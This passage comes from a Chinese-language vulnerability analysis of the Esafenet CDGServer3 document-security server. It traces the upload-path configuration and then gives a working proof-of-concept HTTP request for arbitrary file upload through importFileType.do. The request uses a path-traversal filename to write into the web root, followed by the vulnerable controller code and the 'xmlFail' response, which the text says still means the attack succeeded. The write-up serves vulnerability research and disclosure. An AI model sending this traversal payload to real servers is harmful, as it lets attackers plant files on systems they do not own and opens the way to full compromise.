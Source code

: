 跟进`getDir()`方法，路径为`DECRYPT_UPLOAD_PATH`的值。

```
String filePath = Constant.instance.DECRYPT_UPLOAD_PATH;
```

它是jhiberest.jar包中的Constant类中的属性。PropertyManager获取`/WEB-INF/classes/cobradg.properties`文件中标记为`decrypt.upload.path`的值。参考亿赛通的默认安装目录，构造跨目录上传。

```
this.DECRYPT_UPLOAD_PATH = this.FILE_SAVEPATH + PropertyManager.getProperty("/cobradg.properties", "decrypt.upload.path");
```



### （3）importFileType.do 任意文件上传漏洞

POC如下。然后访问`/CDGServer3/error.txt`

```
POST /CDGServer3/fileType/importFileType.do?flag=syn_user_policy HTTP/1.1
Content-Type: multipart/form-data; boundary=0ed800c4d6316b389c56fdbb5619a55f

--0ed800c4d6316b389c56fdbb5619a55f
Content-Disposition: form-data; name="fileshare"; filename="../..\\..\\..\\..\\webapps\\ROOT\\error.txt"

test
--0ed800c4d6316b389c56fdbb5619a55f
```

另外，漏洞测试时会响应200，但报错如下。这是攻击成功的。

```
{"result":"xmlFail","msg":"操作失败"}
```



漏洞位于`com.esafenet.ta.filetypemanage.controller.FileTypeController`

```java
@Controller
@RequestMapping({"/fileType"})
public class FileTypeController extends BasicController {
    @RequestMapping({"/importFileType.do"})
    public void importFileType(@RequestParam(value = "fileshare",required = false) MultipartFile file, HttpServletRequest request, HttpServletResponse response) {
        try {
            this.fileTypeService.importFileType(file);
            this.makeJSONObject(response, AjaxResult.SUCCESS.setResult("ok"));
        } catch (Exception var5) {
            this.makeJSONObject(response, AjaxResult.FAIL().setResult(var5.getMessage()));
        }
    }
}
```
